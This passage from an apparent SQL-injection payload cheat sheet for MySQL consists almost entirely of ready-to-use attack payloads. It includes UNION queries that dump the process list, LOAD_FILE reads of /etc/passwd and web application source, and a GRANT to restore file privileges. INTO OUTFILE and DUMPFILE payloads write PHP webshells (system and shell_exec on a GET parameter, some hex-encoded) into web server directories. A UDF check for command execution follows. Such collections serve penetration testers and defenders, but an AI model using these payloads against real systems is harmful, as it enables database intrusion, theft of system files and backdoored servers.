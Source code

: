 
```sql
UNION SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #
```

Dump in one shot query to extract the whole content of the table.

```sql
UNION SELECT 1,(SELECT(@)FROM(SELECT(@:=0X00),(SELECT(@)FROM(information_schema.processlist)WHERE(@)IN(@:=CONCAT(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```


## MYSQL Read Content of a File

Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
UNION ALL SELECT LOAD_FILE('/etc/passwd') --
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Command Execution

### WEBSHELL - OUTFILE Method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE Method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

### COMMAND - UDF Library

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```
